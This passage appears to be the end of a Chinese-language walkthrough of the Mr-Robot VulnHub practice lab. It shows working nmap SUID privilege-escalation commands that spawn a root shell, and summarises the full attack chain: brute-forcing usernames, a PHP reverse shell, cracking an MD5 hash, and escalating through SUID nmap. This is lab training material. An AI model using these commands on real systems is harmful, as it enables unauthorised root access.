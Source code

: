 ![](D:\stu\vulnhub\OSCP必刷靶场\mr-Robot靶场\pic\39.jpg)

```shell
TF=$(mktemp)
echo 'os.execute("/bin/sh")' > $TF
/usr/local/bin/nmap --script=$TF
```

最终测试，下面这个可行，为什么呢，因为版本在可利用的范围内

![](D:\stu\vulnhub\OSCP必刷靶场\mr-Robot靶场\pic\40.jpg)

```shell
/usr/local/bin/nmap --interactive
nmap> !sh
```

![](D:\stu\vulnhub\OSCP必刷靶场\mr-Robot靶场\pic\41.jpg)

# 总结

该靶机主要考察以下几点：

1. 对于网站信息收集，这里第一点就是网站目录的方面，然后发现字典
2. 这里其实对于网站目录，其实在其中一个文件中，说到，你现在编程一个脚本猫了吗，也就是不要全部依赖这种工具去跑，这是作者给的警醒
3. 然后就是使用`wp-scan`没有枚举出用户，通过`burp`抓取数据包进行分析，发现对于错误的用户名有怎样的提示，根据提示进行用户名爆破，使用前面给的字典
4. 这里没有对爆破进行限制，就是作者的警告，不要过于依赖自动化的脚本，而不清楚原理
5. 通过编写`php`脚本进行反弹shell，然后在靶机收集信息
6. 通过暴力破解`md5`值，来获取`robot`用户的密码
7. 最后通过SUID权限文件`nmap`成功提权

















































